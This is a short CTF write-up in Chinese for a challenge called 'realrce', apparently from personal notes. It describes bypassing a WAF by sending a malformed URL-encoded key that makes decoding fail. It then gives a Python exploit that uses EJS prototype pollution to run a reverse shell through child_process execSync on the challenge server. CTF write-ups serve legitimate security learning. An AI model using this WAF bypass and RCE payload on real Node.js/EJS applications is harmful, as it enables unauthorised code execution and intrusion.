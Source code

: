 # realrce
	- 思路
		- 让WAF产生错误而绕过WAF，并使用ejs原型链污染实现RCE
	- 绕过WAF
		- 看到WAF会对url解码，在解码失败时直接返回false
		- 这就可以使用`"trickwaf%00%%%"`让WAF在urldecode时产生错误，从而使其返回False, 实现RCE
	- EJS原型链污染
		- [[CTF/JS/EJS的原型链污染]]直接打
	- exp
		- ```python
		  ejs_escape = """\
		  function escapeXMLToString() {
		    return Function.prototype.toString.call(this) + ';\\n' + escapeFuncStr;
		  }
		  console.log('114514ejs');
		  process.mainModule.require('child_process').execSync(CMD);
		  \
		  """.replace("CMD", repr(reverse_shell_payload))
		  
		  url = "http://f63b9588-d130-496d-ae65-b4578c85ca39.node4.buuoj.cn:81/"
		  r = base_post(url, json = {
		      "msg": {
		          "__proto__": {
		              "settings": {
		                  "view options": {
		                      "client": "1",
		                      "escape": ejs_escape,
		                  }
		              }
		          },
		          "trickwaf%00%%%": 114514
		      }
		  })
		  print(r.text)
		  
		  ```